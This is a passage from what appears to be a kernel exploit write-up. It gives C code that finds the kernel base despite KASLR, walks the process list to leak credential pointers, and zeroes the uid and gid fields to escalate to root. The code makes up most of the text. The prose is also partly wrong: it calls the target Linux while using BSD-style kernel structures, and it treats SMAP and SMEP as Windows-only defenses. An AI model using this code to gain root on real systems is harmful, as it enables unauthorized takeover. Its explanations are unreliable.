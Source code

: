 ### Defeating KASLR
**K**ernel **A**ddress **S**pace **L**ayout **R**andomization is a technique to make exploiting such vulnerabilities harder. Every time an executable (or the kernel in this case) loads, it's offset will be randomized. If there were static offsets (like in the pre-2006 linux) it would be easy to guess the address of some key data structures and corrupt them. This is aimed to prevent such things from happening. 
Thankfully, this is not Windows. Windows has a plethora of other defenses which are really hard to overcome like SMAP and SMEP. However in linux its relatively easier to exploit arbitrary write. 
Fortunately for us, the kernel base starts with an ELF header, and every ELF  header must have the `ELF_MAGIC` value set in the beginning, so we only need to scan the memory for `ELF_MAGIC` 
```c
static uint64_t find_kernel_base(uint64_t addr) {
  addr &= ~(PAGE_SIZE - 1);
  while (kread32(addr) != ELF_MAGIC)
    addr -= PAGE_SIZE;
  return addr;
}
```
Next, the process descriptor table is always at a fixed offset from the kernel base. So we  can walk the table until we reach our own process: this will help us leak the addresses to which some critical structures of the kernel have been mapped in our process

```c
static int find_proc_cred_and_fd(pid_t pid) {
  uint64_t proc = kread64(kernel_base + ALLPROC_OFFSET);
  while (proc) {
    if (kread32(proc + PROC_PID_OFFSET) == pid) {
      p_ucred = kread64(proc + PROC_UCRED_OFFSET);
      p_fd = kread64(proc + PROC_FD_OFFSET);
      printf("[+] p_ucred: 0x%lx\n", p_ucred);
      printf("[+] p_fd: 0x%lx\n", p_fd);
      return 0;
    }
    proc = kread64(proc + PROC_LIST_OFFSET);
  }
  return -1;
}
```
Above, `p_fd` contains the pointer to the file descriptor tables (i.e. arbitrary file read may now be orchestrated). But even more interestingly, `p_ucred` is where the credentials of the current user are stored. Now `uid 0` is always root. GUID or GID in linux is the group descriptor and to get access to all resources all we need to do is set uid and guid to 0.
```c
static void escalate_privileges(void) {
  char buf[sizeof(struct in6_pktinfo)];
  *(uint32_t *)(buf + 0x00) = 0; // cr_uid
  *(uint32_t *)(buf + 0x04) = 0; // cr_ruid
  *(uint32_t *)(buf + 0x08) = 0; // cr_svuid
  *(uint32_t *)(buf + 0x0c) = 1; // cr_ngroups
  *(uint32_t *)(buf + 0x10) = 0; // cr_rgid
  kwrite(p_ucred + 4, buf);
}
```
### Cleanup

